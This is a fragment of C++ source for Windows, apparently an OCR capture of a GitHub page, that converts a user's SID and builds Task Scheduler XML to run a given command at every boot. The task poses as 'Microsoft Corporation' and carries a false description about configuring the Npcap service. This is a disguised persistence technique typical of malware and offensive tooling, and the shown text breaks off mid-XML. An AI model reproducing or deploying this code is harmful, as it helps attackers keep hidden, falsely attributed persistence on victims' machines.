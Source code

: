 ```c++
	if (!wSid)
	{
		wprintf(L"[!] malloc failed\n");
		LocalFree(strSid);
		return NULL;
	}

	if (MultiByteToWideChar(CP_ACP, 0, strSid, -1, wSid, len) == 0)
	{
		wprintf(L"[!] MultiByteToWideChar conversion failed: %d\n", GetLastError());
		free(wSid);
		LocalFree(strSid);
		return NULL;
	}

	LocalFree(strSid);
	return wSid;
}
wchar_t* BuildTaskXml(const wchar_t* commandPath)
{
	static wchar_t xmlBuffer[4096];

	char userName[256] = "";
	DWORD nameSize = sizeof(userName);
	GetUserNameA(userName, &nameSize);

	BYTE sid[256] = {};
	DWORD sidSize = sizeof(sid);
	char domain[256] = "";
	DWORD domainSize = sizeof(domain);
	SID_NAME_USE sidType;

	if (!LookupAccountNameA(NULL, userName, sid, &sidSize, domain, &domainSize, &sidType))
	{
		wprintf(L"[!] LookupAccountNameA failed: %d\n", GetLastError());
		return NULL;
	}

	wchar_t* wideSid = ConvertSidToWideStringSid(sid);



	// 拼接 XML
	swprintf(xmlBuffer, 4096,
		L"<?xml version=\"1.0\" encoding=\"UTF-16\"?>\n"
		L"<Task version=\"1.3\" xmlns=\"http://schemas.microsoft.com/windows/2004/02/mit/task\">\n"
		L"  <RegistrationInfo>\n"
		L"    <Author>Microsoft Corporation</Author>\n"
		L"    <Description>Ensure Npcap service is configured to start at boot</Description>\n"
		L"    <URI>\\Microsoft Corporation</URI>\n"
		L"  </RegistrationInfo>\n"
		L"  <Triggers>\n"
		L"    <BootTrigger>\n"
		L"      <Enabled>true</Enabled>\n"
		L"    </BootTrigger>\n"
		L"  </Triggers>\n"
		L"  <Settings>\n"
		L"    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>\n"
		L"    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>\n"
		L"    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>\n"
		L"    <AllowHardTerminate>true</AllowHardTerminate>\n"
		L"    <StartWhenAvailable>true</StartWhenAvailable>\n"
		L"    <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>\n"
```